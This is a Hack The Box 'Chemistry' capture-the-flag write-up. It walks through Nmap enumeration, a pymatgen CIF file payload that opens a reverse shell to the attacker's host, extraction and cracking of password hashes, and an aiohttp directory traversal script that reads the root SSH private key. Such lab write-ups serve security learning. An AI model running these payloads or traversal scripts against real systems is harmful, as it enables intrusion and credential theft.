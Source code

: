 ```yaml
---
title: Chemistry - Hack The Box
date: 2024-10-24
---
```


# Chemistry

![Chemistry - info card](/ctf/hack-the-box/machines/chemistry/info-card.png)

## Enumeration

### Nmap

We start by running an Nmap scan to enumerate the open ports and services on the target:

```bash
nmap -A -T4 -p- 10.10.11.38
```

```bash
Nmap scan report for 10.10.11.38
Host is up (0.025s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 b6:fc:20:ae:9d:1d:45:1d:0b:ce:d9:d0:20:f2:6f:dc (RSA)
|   256 f1:ae:1c:3e:1d:ea:55:44:6c:2f:f2:56:8d:62:3c:2b (ECDSA)
|_  256 94:42:1b:78:f2:51:87:07:3e:97:26:c9:a2:5c:0a:26 (ED25519)
5000/tcp open  http    Werkzeug httpd 3.0.3 (Python 3.9.5)
|_http-title: Chemistry - Home
|_http-server-header: Werkzeug/3.0.3 Python/3.9.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From the results, we identified two open ports:

- Port 22: SSH
- Port 5000: HTTP (running Werkzeug)

### Exploring HTTP - Port 5000

Upon visiting the website on port 5000, we see that it's a **Chemistry CIF Analyzer** that allows uploading and
analyzing **CIF** (Crystallographic Information File) files.

![Chemistry - Home](/ctf/hack-the-box/machines/chemistry/home-page.png)

After registering and logging in, we land on the dashboard, where users can upload CIF files for analysis.

![Chemistry - Dashboard](/ctf/hack-the-box/machines/chemistry/dashboard-page.png)

The website provides a sample CIF file:

```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1
```

### Vulnerability Research

Researching the web, we came across
a [vulnerability report](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f) related
to the **pymatgen** library used by the application. This vulnerability allows **arbitrary code** execution by
manipulating CIF files.

## Exploitation

### Reverse Shell Payload

We exploit the **pymatgen** vulnerability by crafting a CIF file that triggers a reverse shell.

Here’s the payload:

```cif
data_Example
_cell_length_a    10.00000
_cell_length_b    10.00000
_cell_length_c    10.00000
_cell_angle_alpha 90.00000
_cell_angle_beta  90.00000
_cell_angle_gamma 90.00000
_symmetry_space_group_name_H-M 'P 1'
loop_
 _atom_site_label
 _atom_site_fract_x
 _atom_site_fract_y
 _atom_site_fract_z
 _atom_site_occupancy
 H 0.00000 0.00000 0.00000 1
 O 0.50000 0.50000 0.50000 1

_space_group_magn.transform_BNS_Pp_abc  'a,b,[d for d in ().__class__.__mro__[1].__getattribute__ ( *[().__class__.__mro__[1]]+["__sub" + "classes__"]) () if d.__name__ == "BuiltinImporter"][0].load_module ("os").system ("/bin/bash -c \'sh -i >& /dev/tcp/<ip>/4444 0>&1\'");0,0,0'


_space_group_magn.number_BNS  62.448
_space_group_magn.name_BNS  "P  n'  m  a'  "

```

::: info
Make sure to replace `<ip>` with your IP address and listen on port **4444** using `nc -lvnp 4444`.
:::

### Gaining Access

After uploading the payload, we receive a reverse shell. In the `instance` directory, we find a **sqlite database file**.

We can inspect the database with the following commands:

```bash
sqlite3 database.db
SELECT * FROM user;
```

This reveals a list of users and password hashes:

```bash
1|admin|2861debaf8d99436a10ed6f75a252abf
2|app|197865e46b878d9e74a0346b6d59886a
3|rosa|63ed86ee9f624c7b14f1d4f43dc251a5
...
```

### User Flag

We find the user rosa in the /home directory. To access her account, we crack her password hash
using [CrackStation](https://crackstation.net/).

![CrackStation - Password Cracker](/ctf/hack-the-box/machines/chemistry/crackstation.png)

::: info
We can also use `hashcat` or `john` to crack the password hash.
:::

Once the password is cracked, we can log in via SSH:

```bash
ssh rosa@10.10.11.38
rosa@chemistry:~$ cat user.txt
[user-flag]
```

## Privilege Escalation

### Local Enumeration

Running `(netstat -punta || ss --ntpu)` reveals that **port 8080** is open locally.

```bash{2}
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
```

The root user is running a **monitoring_site** Python script:

```bash
/usr/bin/python3.9 /opt/monitoring_site/app.py
```

### Accessing the Internal Web Application

To view the web application running on port 8080, we use SSH port forwarding:

```bash
ssh -L 8080:127.0.0.1:8080 rosa@10.10.11.38
```

We then visit `http://localhost:8080` and use `whatweb` to identify the technology stack:

```plaintext
http://localhost:8080 [200 OK] HTML5, HTTPServer[Python/3.9 aiohttp/3.9.1], JQuery[3.6.0], Script, Title[Site Monitoring]
```

### Exploit (CVE-2024-23334)

We found that **aiohttp version 3.9.1** is vulnerable
to [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC), which allows directory traversal attacks. We can
use this exploit to access the root private key:

```bash
#!/bin/bash

url="http://localhost:8080"
payload="/assets/"
file="root/.ssh/id_rsa"

for ((i=0; i<15; i++)); do
    payload+="../"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
```

### Root flag

After retrieving the root private key, we log in as root:

```bash
ssh -i id_rsa root@10.10.11.38
root@chemistry:~# cat root.txt
[root-flag]
```

![Chemistry - pwned](/ctf/hack-the-box/machines/chemistry/pwned.png)

## References

- [GitHub - pymatgen vulnerability](https://github.com/materialsproject/pymatgen/security/advisories/GHSA-vgv8-5cpj-qj2f)
- [CrackStation](https://crackstation.net/)
- [HackTrick - Open ports](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports)
- [CVE-2024-23334](https://github.com/z3rObyte/CVE-2024-23334-PoC)